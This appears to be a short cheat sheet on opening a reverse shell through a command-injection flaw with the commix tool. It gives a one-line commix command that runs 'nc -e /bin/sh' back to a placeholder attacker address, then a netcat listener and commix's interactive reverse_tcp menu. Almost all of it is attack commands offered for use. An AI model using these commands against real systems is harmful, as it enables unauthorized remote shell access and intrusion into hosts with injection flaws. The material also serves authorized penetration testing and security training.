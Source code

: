 Commix Reverse Shell
====================

https://github.com/commixproject/commix/wiki/Reverse-Shells

Technique 1
-----------
```bash
commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```

Technique 2
-----------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
